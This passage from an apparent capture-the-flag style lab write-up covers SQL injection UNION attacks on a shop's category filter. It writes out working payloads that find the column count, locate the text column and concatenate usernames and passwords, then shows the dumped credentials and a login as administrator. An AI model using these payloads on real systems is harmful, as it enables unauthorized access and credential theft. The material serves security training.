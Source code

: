 We can then take this information and log in as the administrator account.


## :material-gauge: SQL injection UNION attack, retrieving multiple values in a single column

!!! question
    This lab contains an SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

    The database contains a different table called users, with columns called username and password.

    To solve the lab, perform an SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the administrator user.

This is very much like the prior scenario, but uses the structure from the prior challenges wherein you have three columns, and only the second is compatible with strings. Therefore, we have to shove both the username and password into the same field. This can be done with a query that looks like the following:


```
// determine how many columns exist
filter?category=Pets' UNION SELECT NULL,NULL --

// confirm which columns support text:
filter?category=Pets' UNION SELECT NULL,'a' -- (column 2)

// grab the username/password and stuff them into the 2nd column
/filter?category=Pets' UNION SELECT NULL,username || '~' || password from users --
```

This yeilds a result like the following:

```
More Than Just Birdsong
Pest Control Umbrella
Babbage Web Spray
administrator~o7188srj54a849wwm2cq
Giant Grasshopper
wiener~8hxtfx4depv2otj53nb9
carlos~z54oyd1moidzjxuz9oxm
```

And we can then log in as the administrator, solving the challenge


## :material-gauge: SQL injection attack, querying the database type and version on Oracle

!!! question
    This lab contains an SQL injection vulnerability in the product category filter. You can use a UNION attack to retrieve the results from an injected query.

    To solve the lab, display the database version string.
